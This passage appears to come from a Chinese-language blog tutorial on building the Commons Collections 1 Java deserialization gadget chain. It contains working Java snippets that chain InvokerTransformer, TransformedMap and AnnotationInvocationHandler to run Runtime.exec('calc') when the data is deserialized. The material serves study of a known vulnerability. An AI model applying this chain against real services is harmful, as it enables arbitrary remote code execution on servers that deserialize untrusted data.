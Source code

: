 ```
annotationType = AnnotationType.getInstance(type);
，type呢在构造方法中是可以控制的并且还需要修改memberValues是AbstractInputCheckedMapDecorator.TransformedMap类AbstractInputCheckedMapDecorator为啥不行是因为他是一个抽象类刚好TransformedMap继承了他(图二)，那我们使用反射去执行一下试试。
```

![](https://xinyisleep.github.io/img/2025/commons-collections/10.png)

![](https://xinyisleep.github.io/img/2025/commons-collections/11.png)

```java
Runtime r = Runtime.getRuntime();
InvokerTransformer exec = (InvokerTransformer)new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
HashMap<Object, Object> objectObjectHashMap = new HashMap<>();
Object put = objectObjectHashMap.put("value", "value");
Map<Object, Object> decorate = TransformedMap.decorate(objectObjectHashMap, null, exec);
Class<?> aClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> declaredConstructor = aClass.getDeclaredConstructor(Class.class, Map.class);
declaredConstructor.setAccessible(true);
Object o = declaredConstructor.newInstance(Retention.class, decorate);
serialize(o);
unserialize("ser.bin");

//        这里解释一下为什么是Retention注解因为获取了注解的所有成员变量看下图，并且
//        Object put = objectObjectHashMap.put("value", "value");
//        为啥key是value是因为需要获取到value才不为空，第2个参数decorate这也是因为继承
//        AbstractInputCheckedMapDecorator，所有就可以直接调过去了。
```

![](https://xinyisleep.github.io/img/2025/commons-collections/12.png)

![](https://xinyisleep.github.io/img/2025/commons-collections/13.png)

```
好了到这里我们还需要解决一个问题就是Runtime是不可以被反序列化的，好消息是class可以那么我们使用
InvokerTransformer.transform里面的代码实现一个Runtime的反射。
```

```java
Object transform = new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}).transform(Runtime.class);
Object transform1 = new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}).transform(transform);
InvokerTransformer exec = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
HashMap<Object, Object> objectObjectHashMap = new HashMap<>();
Object put = objectObjectHashMap.put("value", "value");
Map<Object, Object> decorate = TransformedMap.decorate(objectObjectHashMap, null, exec);
Class<?> aClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> declaredConstructor = aClass.getDeclaredConstructor(Class.class, Map.class);
declaredConstructor.setAccessible(true);
Object o = declaredConstructor.newInstance(Retention.class, decorate);
serialize(o);
unserialize("ser.bin");
```
